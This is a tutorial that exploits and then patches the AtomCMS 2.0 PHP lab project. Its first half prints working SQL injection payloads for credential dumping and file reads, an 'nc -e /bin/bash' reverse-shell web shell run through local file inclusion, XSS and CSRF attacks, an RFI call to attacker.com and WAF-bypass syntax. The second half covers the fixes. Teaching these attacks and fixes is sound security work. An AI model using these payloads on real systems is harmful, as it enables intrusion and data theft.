

Explaining web application vulnerabilities in AtomCMS 2.0
AtomCMS is a great resource for learning PHP. Yes, it is still a relevant project after almost 9 years since the first video was added to the playlist. - Video tutorials here.
Learning PHP is not the only scope of AtomCMS 2.0. We can also use this project as a penetration testing environment.
In this documentation I will demonstrate how a bad actor could potentially take advantage of a few attack vectors which are present in AtomCMS 2.0. I will explain where, why and how these vulnerabilities can be exploited.
I also created a new branch called "AtomCMS-2.1". It is the exact same project except for some changes which are necessary for us in order to make AtomCMS production ready.
Please keep in mind that at the time of writing this, I used PHP 7.4.
If you are not interested in learning web application penetration testing and you only want to know how to properly patch the security holes present in the project, then skip to the patching section by clicking here.
Disclaimer
This documentation has been made available only for educational purposes. The information present in this documentation is not meant to be used for illegal or malicious purpose. Hacking websites is illegal. You are responsible for your own actions.
SQL Injection - Patching
SQL injection is a type of vulnerability which stems from a failure to properly sanitize user input. It allows attackers to execute rogue database queries by manipulating the vulnerable URL or vulnerable form inputs.
Let's see how we can exploit a SQL injection present in the admin login panel in order for us to gain access:
Why is this possible?
It's because the sql query is constructed in such a manner that it can take user input. Let's analyze the following code:
$q = "SELECT * FROM users WHERE email = '$_POST[email]' AND password = sha1('$_POST[password]')";
In this case, '$_POST[email]' or sha1('$_POST[password]') could be anything. So, we can escape the user input with a single quote and craft sql instructions. Basically, our sql query will look like this:
"SELECT * FROM users WHERE email = '' OR 1=1 LIMIT 1 # ' AND password = sha1('$_POST[password]')"
We are escaping outside of the quotes around $_POST[email] with a single quote and then we can write sql. Everything after the # sign will be considered a comment.
Also, notice that client side filters can be bypassed. I modified the email address input to be of type text instead of email.
Why do we need to write LIMIT 1?
It's because, otherwise, we will get more than one record from the database and our injection will not work.
The password field is not different by much. We must observe (or guess) how the sql query is written. In this case we must escape outside of the sha1() function:
The query will become like this:
$q = "SELECT * FROM users WHERE email = '' AND password = sha1('') OR 1=1 LIMIT 1 # ') "
The easiest and funniest way to inject code in this case is to just write a user's email followed by a single quote and a hash sign:
SQL Injection can be present in multiple places around AtomCMS 2.0. We can also inject code on the main page using the URL because the sql query is written with data received from the user using $_GET superglobal included directly into the query.
You might be familiar with this:
MySQL error: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near...
If we get an error like that after we wrote a single quote in the query parameter: ?id=1' or if the
page is behaving unexpected, for example not showing anything on the body if you write a false statement, then the website might be vulnerable to
sql injection; because sometimes we can determine if the page is vulnerable to sql injection even if we don't get
a mysql error. Keep in mind that the single quote is not the only way to fuzz a web application. ?id=500000 is another example. Also, in some cases, we can write sql code
into the page without the need of a single quote, so we don't have to escape anything.
There are two important steps for a successfull sql injection: breaking the query and then repairing it.
In the case of AtomCMS 2.0, we have a blind sql injection. We can observe that because:
http://localhost/Atom.CMS/home' AND 1=1 --+ this url will show us the
title and the content on the page's body because 1=1 is a true statement while http://localhost/Atom.CMS/home' AND 1=2 --+ will not show us anything
except for the navigation and the footer.
- First, I fuzzed the application with a single quote in the query parameter.
- The website responded with nothing on the page except for the navbar and the footer.
- I repaired the sql construct using "--+". I will explain what --+ means below.
- I proceeded to write the sql injection.
In sql, -- or # are considered comments but because we are interacting with a web front-end, we need to follow the double dash with a + sign because an additional space is required. This is mandatory for MySQL.
The + sign is encoded as a space in the URL standard. We can also use %23 and forget about the space or just use
a single dash "-" instead of a + sign: -- -
From the mysql documentation: From a -- sequence to the end of the line. In MySQL, the -- (double-dash) comment style requires the second dash to be followed by at least one whitespace or control character (such as a space, tab, newline, and so on). This syntax differs slightly from standard SQL comment syntax, as discussed in Section 1.8.2.4, "'--' as the Start of a Comment".
Now let's observe the following link and understand what the sql code in the query parameter means:
http://localhost/Atom.CMS/homee' union select 1,2,3,4,5,group_concat(schema_name),7,8 from information_schema.schemata --+
union will join two sql queries together but in order for that to
work, we need to find out the number of columns used in the code (not in the database). This is mandatory because
union needs the number of columns used in the first part of the query.
So we do that with order by
As you can see, "order by 9" gives us nothing on the page but "order by 8" gives us the title and the content on the page's body. So that means we have 8 columns in use.
We proceed to write like this: union select 1,2,3,4,5,6,7,8 --+ but
because the sql code contains two parts, the first part which is written by the author and our sql injection code,
in order for union to work we need to invalidate the first part of the
query by just writing an invalid value for the query parameter: home becomes homee
Usually you would see numbers on the page (These numbers represent the columns) but because AtomCMS has a
relationship between the "posts" table and the "posts_type" table, it doesn't know what page to include in the
body. However, you can see the number 6 in the browser's tab. That's the title of our webpage. We can replace the
number 6 with sql commands like @@version, database(), user() or @@version_compile_os.
This is how it would look inside phpmyadmin:
http://localhost/Atom.CMS/homee' union select 1,2,3,4,5,group_concat(schema_name),7,8 from information_schema.schemata --+
The injection from above will list all the databases on the server.
What is information_schema ?
information_schema is a database that comes preinstalled with mysql. It contains information about the structure of our databases. We can use information_schema to read all the databases from the server, tables, columns and rows.
So you can see how destructive sql injection really is.
What is group_concat() ?
group_concat() is a function which will concat values inside of one
column:
So you can see that the 8th column is the "body" column. We used group_concat() to dump all the tables from the current database.
This injection will list all the tables from the current database:
http://localhost/Atom.CMS/homee' union select 1,2,3,4,5,group_concat(table_name),7,8 from information_schema.tables where table_schema=database() --+
This one will list all the columns from the users:
http://localhost/Atom.CMS/homee' union select 1,2,3,4,5,group_concat(column_name),7,8 from information_schema.columns where table_name="users" --+
This time we put "users" in double quotes after table_name= because it is data.
And finally, this one will list all the emails:
http://localhost/Atom.CMS/homee' union select 1,2,3,4,5,group_concat(email),7,8 from users --+
And passwords:
http://localhost/Atom.CMS/homee' union select 1,2,3,4,5,group_concat(password),7,8 from users --+
As you can see, we need to find out the tables names, then the columns names and then we can read the data from the rows.
We can also do a sql injection using the file upload functionality
How ?
Because it's a real-time request, we need to intercept the request with a proxy software. I will use burp suite in this demonstration:

We can't just modify ?id=1 into anything we want because the server will respond with a status code of 400. Burp suite encodes the payload for me.
The above payload will result in this:
The result can be seen in the Network tab, under "response" in the developer tools.
The strange syntax you are seeing above is called a double query injection.
Pay attention to the last line: Duplicate entry '::atomcms::0' for key 'group_key'. Here we are creating
errors for us in order to find out information about the database.
Using this kind of injection sometimes will get you a message like: "Subquery returns more than one row".This is completely fine. Keep trying
until you see the error which contains the database name.
Unfortunately, we can't dump all the tables in one shot with this kind of exploit. We have to use LIMIT 0,1 LIMIT 1,1...in order to get all the tables. This would be best
done with an automated tool.
0,1 in the limit clause represents the offset and the row count. 0 is
the first table while 1 is the only result.
The double query injection syntax for finding out a table is:
AND (select 1 from (select count(*), concat(0x3a,0x3a,(select table_name from information_schema.tables where table_schema=database() limit 0,1),0x3a,0x3a, floor(rand()*2))a from information_schema.tables group by a)b) #
Notice that you'll have to figure out when to use AND or OR ...
Gaining a remote shell connection
There are several ways to get a remote shell connection. For example, we can upload a file with sql injection and then navigate to that file using another vulnerability called Local File Inclusion. When that happens, the malicious file will be executed and we will gain access to the target web server.
You can read and write files with sql injection, however, you need to have permission for this.
Keep in mind that if SQLi and LFI are present on different websites which are hosted on the same server, then we can use one website for uploading a file on the server using sql injection and another website to exploit the local file inclusion vulnerability in order to gain full access to the target web server.
Reading files with sql injection
There is a little trick about reading files using sql injection in AtomCMS 2.0. In the front-end part of the website, we have a certain type of functionality for creating clean URLS. The code is written in such a manner that it strips "/" using the explode() function in PHP and then we only use the first part of the URL to make a database query. So $path['call_parts'][0] is used for generating user data for a database query. If we have another "/" then our injection will be split and we have to bypass that kind of filtering in order to get an injection.
http://localhost/Atom.CMS/homee' union select 1,2,3,4,5,load_file('/etc/passwd'),7,8 --+
doesn't show us the content of /etc/passwd
But http://localhost/Atom.CMS/homee' union select 1,2,3,4,5,load_file(from_base64('L2V0Yy9wYXNzd2Q=')),7,8 --+
does.
Unfortunately, we can't encode the pathname for writing a file because that's an operation, not a function. But I'm just gonna use the admin panel for writing the shell.
' union select "<?php passthru('nc -e /bin/bash 127.0.0.1 8888'); ?>",null,null,null,null,null,null into outfile '/tmp/shell.php' #
Here are are using the passthru() php function for executing a system command. In this case, I am listening for my own connection on port 8888 using netcat. An attacker will write his ip address.
And now we just need to get that file to execute. I will explain this in the Local File Inclusion section.
Local File Inclusion - Patching
Local File Inclusion is another critical web application vulnerability because it allows us to read files from the system, so we can read sensitive information from the target web server. We could also read files from another website which is hosted on the same server.
In the worst case scenario, we can read files outside of the web server directory regardless of the
extension, if we have permission for this. If that's the case, we can gain a remote shell by just trying to
connect to the server with ssh but instead of the username, we encode a payload and then browse to /var/log/auth.log.
This happens because we are including files with user supplied data without any kind of filtering. Keep in mind that some filters can be bypassed though...
So because AtomCMS 2.0 includes files with $_GET['page'] without filtering, we can browse to any php file we want outside of the views folder:
?page=../../../lfi => Because my server's path is /var/www/html, this means i need to go one step back from the views folder, so now we are in admin, one step back to the front end files and one step back into the "html" folder. lfi is a php file which prints "Local
File Inclusion".
Now, I am going to browse to the /tmp folder and execute my malicious shell which was uploaded with sql injection:
In my case, ?page=../../../../../../tmp/shell will result in:
I am now connected to my own web server and I can run system commands.
XSS/Cross Site Scripting - Patching
There are 3 types of XSS: Reflected, DOM based and Stored. I will demonstrate all of them using AtomCMS 2.0.
XSS, unlike sql injection, is a client based injection. XSS means we can inject malicious javascript code inside of a web page. It's a very critical vulnerability because an attacker can steal cookies or user sessions from the browser.
Furthermore, someone who gives you a link which contains malicious javascript can hook your browser into a software called "BeeF Exploitation Framework". This tool will allow the attacker to run commands against your browser. For example, he can redirect you to fake login pages or trigger an alert stating that an update is available. If you download and run that "update", you will actually execute the attacker's backdoor.
Reflected XSS
Reflected XSS requires an attacker to craft malicious javascript code inside of the URL so he can send the link to someone else. We have a Reflected XSS into the debug panel, because we are outputting the $_GET data into the page without any kind of sanitisation. So, we can write <script>alert('XSS')</script> for both the key and the value which forms the $_GET array. Of course an attacker would write more than just a simple alert.
The same vulnerability applies for $_POST and for the script which helps us to make clean URLs. I rewrote all of those arrays with sanitisation.
Dom Based XSS
Dom based XSS occurs when we can inject javascript code inside of a web page and the malicious js code sinks inside elements, thus the name "DOM based". Someone can write a DOM based xss inside of the URL, inside of a textbox or into a select element etc.
The payload can be different from website to website, so there is not a single way of achieving this.
In AtomCMS 2.0, I will show you a stored/dom XSS inside of the admin panel. It's stored because we can insert code into the database and dom based because we have to escape the input element.
If we store code like this and then click the chevron icon for editing that page, the code will not execute because it's inside of the value HTML property for an input:
But if we escape out of that input element, using " /> then our alert will execute.
Basically our code will look like this:
Stored XSS
Imagine a form where users are allowed to post comments; if someone is injecting code like this: <img src="" onerror="alert('XSS')" /> then, it gets stored into the database and everytime a user loads that web page, the alert popup will execute. This is an example of a stored xss. In my opinion, this is the most severe type of cross site scripting.
In AtomCMS 2.0, you simulate this kind of attack by storing a post which has a script in the page's body. If someone else wants to read that post, the script will execute. It doesn't require the attacker to trick the victim into clicking a link.
Since AtomCMS 2.0 is supposed to allow HTML into a post's body, I will use HTML Purifier for this. More information in the patching xss section.
Dangerous JavaScript Methods
You should not use the following methods for outputting user input data: innerHTML in Javascript or html() in jQuery unless you encode the data like here.
CSRF - Cross Site Request Forgery - Patching
Cross Site Request Forgery will allow the victim to make a request, a specific action which is not initially desired. For example, if someone is logged into the admin panel and the attacker tricks the victim into clicking a certain link which contains a properly crafted HTML form, then the attacker's form will execute a request with certain values for the specific website, where the victim is logged in. In this way, passwords can be changed against one's will:
The password for the first user is now changed. Also, the email, first name and last name will contain an empty string because i didn't set any values for these fields in the CSRF form.
Full Path Disclosure - Patching
Because we can access paths which are not supposed to return a 200 OK status such as http://localhost/Atom.CMS/config/connection.php, someone could find out the absolute path and use sql injection to load the content into the page, revealing sensitive information, for example database credentials:
The payload is http://localhost/Atom.CMS/homee' union select 1,2,3,4,5,load_file(from_base64('L3Zhci93d3cvaHRtbC9BdG9tLkNNUy9jb25maWcvY29ubmVjdGlvbi5waHA=')),7,8 --+
The base 64 code is actually my path: /var/www/html/Atom.CMS/config/connection.php
Note that the page's content will not be executed, even if it's php code, when loaded with the sql function load_file().
File Upload Attack - Patching
We can also gain a remote connection to the target server if we can upload any kind of file. We can use a tool like weevely for generating stealth malicious PHP code and then connecting to it:
I want to point out another important factor here.
Some tutorials will tell you that checking both the size and the extension of the file for an upload functionality is enough for security. It is not.
We can write malicious php code inside of an image (inside EXIF data) and then use Local File Inclusion on the same website or on another website which is present on the same server for getting a remote shell connection. We can even use Remote File Inclusion if that's available to us. Remote File Inclusion is the same type of attack as LFI except for the fact that we are loading a file which is located on another server:
https://victim.com/?page=https://attacker.com/image.png
Better safe than sorry. We should encode the original metadata of the file with an image library like GD or Imagick.
This can get me a remote shell as long as I can execute that image inside the page.
We need to include the image into the page using a LFI attack so it gets executed by the web server instead of getting it read by the web browser. That way we can get a remote shell connection. Simply loading the image into the browser will do nothing.
I think SVG images can execute javascript inside the browser when they are loaded. However, svg images are out of our scope.
If a web page contains code like this: <?php include($_GET['page']); ?> then we can use an absolute path
for executing our malicious image as long as we know the name and the path of the image. We need to exploit user
controllable data inside the include() function in PHP.
I intercepted the file upload request with burpsuite and then modified the data inside the image to contain a
system command.
The important note here is that we need to correctly check for the type, extension, size (so we are not vulnerable to a Denial of Service Attack because of someone who is uploading very large files), encode the metadata with an image library like PHP-GD, rename the file, move it to our desired folder and delete the temporary file. It is also advised to have your "uploads" folder outside of your web root. You can put your "uploads" folder one level back from the root web directory (in "/var/www/" if the projects are located in /var/www/html/). /var/www/html/ is the server's path for a debian based operating system. In Arch Linux, the server is located in /srv/html.
However, there is a gotcha to keep in mind: some images will not have a .png or .jpeg extension in the name, which could trigger an error. Also,
['image']['type'] is not a reliable way of checking the mime because an image without an extension in the name can have a mime of application/octet-stream. For correctly checking the mime, we must use the finfo php function which would return a mime of image/jpeg or image/png instead of application/octet-stream.
I wrote a script for this kind of functionality which you can see here.
Collision Attack - Patching
In cryptography, a collision attack on a cryptographic hash tries to find two inputs producing the same hash value, i.e. a hash collision. Source: Wikipedia.
SHA1 is vulnerable to this type of attack so we will just switch to BCrypt instead. At this point in time, bcrypt is the default hashing algorithm to use in PHP.
Important
WAF (Web Application Firewall) will not protect your website against sql injection, xss or other type of vulnerability. Someone can use a syntax like this: /*!50000UNION*/ /*!50000SELECT*/ and bypass the waf protection for a successfull sqli attack.
Patching SQL Injection
In order for us to patch SQL Injections, we must use prepared statements. Using prepared statements is the only proper way to do a sql statement. I will show you how to use PDO (PHP Data Objects) with prepared statements and why this is different and safer than concatenated user data variables directly into the sql query. However, I am not going to write a full tutorial on PDO or Object Oriented Programming.
This is a great resource for learning PDO.
SQL Injection happens because sql code is executed at the same time with user supplied data. Prepared Statements will send the sql instruction on a separate channel from the data thus making sql injection ineffective.
Keep in mind that you should never concatenate user data inside of a prepared statement. You should always use placeholders.
Let's create a PDO instance:
$host = '127.0.0.1';
$db = 'atomcms';
$user = 'dev';
$pass = 'thepassword1';
$charset = 'utf8mb4';
$dsn = "mysql:host=$host;dbname=$db;charset=$charset";
$options = [
PDO::ATTR_ERRMODE => PDO::ERRMODE_EXCEPTION,
PDO::ATTR_DEFAULT_FETCH_MODE => PDO::FETCH_ASSOC,
PDO::ATTR_EMULATE_PREPARES => false
];
$pdo = new PDO($dsn, $user, $pass, $options);
It's important to respect this exact same structure. We are passing the corresponding variables and options into the PDO instance.
However, the PDO::ATTR_EMULATE_PREPARES => false can be optional. If this
option is not present, pdo will use emulated prepared statements which is not a security problem as long
as the database encoding is set (we did it above) and you are using a supported mysql version. More info here
If we want to execute a query, we can use PDO's prepare() and execute() functions. prepare() will set the query
with the corresponding placeholders while execute() will replace the
placeholders with our data and execute the query:
$stmt = $pdo->prepare("SELECT * FROM posts WHERE slug = :slug");
$stmt->execute(['slug' => $path['call_parts'][0]]);
As you can see, we are not concatenating variables inside of our sql instruction. Instead, I used a placeholder: :slug. In this case, we are
making 2 roundtrips to the database because we have set the PDO::ATTR_EMULATE_PREPARES => false option inside of our PDO instance object. The
sql instruction and our data are sent separately in 2 roundtrips to the database.
We pass an array to the execute() function and we use the placeholders as keys.
Since AtomCMS 2.0 is using a procedural style of programming, we will use the following syntax inside of our project:
function pdo($pdo, $sql, $args = NULL)
{
if (!$args)
{
return $pdo->query($sql);
}
$stmt = $pdo->prepare($sql);
$stmt->execute($args);
return $stmt;
}
$data = pdo($dbc, "SELECT * FROM posts WHERE slug = :slug",
['slug' => $path['call_parts'][0]])->fetch();
Patching XSS
For patching XSS when we want to output content into the document and we don't care about preserving HTML, we can use the following function:
htmlspecialchars($string, ENT_QUOTES, 'UTF-8')
This function encodes tags into special entities so the browser won't interpret any malicious scripts. You should also use this function when you want to output into an HTML attribute.
If we want to output into HTML document and let people format their messages using HTML, then we should use HTML Purifier. I will include and use its functionality in the admin side of the website, where we are submitting posts.
Keep in mind that HTML Purifier is PHP 5 and PHP 7. At the time of writing this, I used PHP 7.
I will also use this function inside AtomCMS-2.1:
function escape_html($content)
{
return htmlspecialchars($content, ENT_QUOTES, 'UTF-8');
}
It is important to note that using libraries in a project can be quite a relative subject when it comes to security. For example, some older versions of libraries such as jQuery or TinyMCE had xss vulnerabilities.
However, this doesn't necessarily mean that the newer versions of these libraries are 100% secure.
As a matter of fact, TinyMCE suffered an XSS vulnerability at the time of writing this...
When you are using a WYSIWYG editor in your project, you should use only the functions that you need and not all of them. It is advised to use HTML Purifier along with TinyMCE.
Since TinyMCE would be available only if you are logged into the admin area of AtomCMS, I am assuming that you are trusting whoever else may be using AtomCMS along with you.
I updated Dropzone.js and jQuery with the latest versions. If you want to use TinyMCE, create an account to get a key and follow their documentation.
Patching CSRF
For patching CSRF, we must create unique tokens everytime we login. We store these tokens in our session and check against these tokens everytime we want to make a POST request, for example submitting a new page or changing the passwords. So we will include our session token inside of a hidden input element into the form and validate the session variable against the token from the form at the time of the POST HTTP method.
This method is called Synchronizer Token Pattern.
Even if an attacker crafts the form with his generated token, it will not be the same token as the victim's one thus making this attack ineffective.
A side note: using the GET HTTP method for changing the state of a resource is not a good practice. AtomCMS 2.0 does this in several places. Read more here. I modified those requests to be of type POST.
You should also check the referer if you are planning on using AtomCMS in production.
OWASP CSRF Prevention Cheatsheet
Patching Local File Inclusion
In order to patch local file inclusions, we must check the user input against a white list or we can just hardcode the links without user input data.
In the case of AtomCMS, I will use a whitelist:
$allowedPages = array
(
'dashboard',
'pages',
'users',
'navigation',
'settings'
);
$page = escape_html($_GET['page']);
if(in_array($page, $allowedPages)
&& file_exists('views/'.$page.'.php'))
{
include ('views/'.$page.'.php');
}
else
{
echo 'File not found.';
}
Patching Remote File Inclusion
In order to patch this vulnerability, we must set the following options inside of the php.ini file: allow_url_fopen = Off and allow_url_include = Off.
Patching File Upload Attacks
In order for us to write a secure file upload functionality, we need to correctly check against the type, extension, size, encode the metadata using an image library, rename the file, move it to our desired folder and delete the temporary file.
It is a good practice to have your "uploads" folder outside of your root web directory.
Also, you need to have PHP-GD library enabled in order for this script to work.
You can see an example of secure file upload functionality here.
However, there is a gotcha to keep in mind: some images will not have a .png or .jpeg extension in the name, which could trigger an error if we check the validity for the last dot followed by the extension. Also, $_FILES['image']['type'] is not a reliable way of checking the mime because an image without an extension in the name can have a mime of application/octet-stream. For correctly checking the mime, we will use the finfo php function which would return a mime of image/jpeg or image/png instead of application/octet-stream.
Patching Full Path Disclosure
For patching this kind of vulnerability, we need to restrict the access to files and folders we don't want other users to see. Almost every folder from AtomCMS-2.1 contains an htaccess file which we can use for restricting the access to our server's folders and files.
Patching Collision Attacks
We will use another hashing algorithm along with different php functions inside of AtomCMS 2.1:
$hashed_password = password_hash($password, PASSWORD_BCRYPT);
if(password_verify($password, $hash))
{
...
}
Note
Frameworks exist for a good reason. They are object oriented, they follow an MVC pattern and they have some security features out of the box. If you are doing something by yourself, for example, creating your custom CMS or MVC framework, then you need to be careful about how you are handling data.
It's important to understand that even if your website is not vulnerable to any web application attacks, then your server's software may have, for example, a buffer overflow vulnerability or another type of server software vulnerability which is sitting there, awaiting for someone to exploit it. Even if your website and server are not vulnerable, then it takes only one click from someone who has been tricked in order to exploit his browser or computer. Someone can download a malicious image or a malicious executable, open it and then getting his computer hacked. If the victim is a hosting service employee, then your website or server can be compromised.
Security will never be perfect. However, this is not an excuse and I think every developer should learn about security.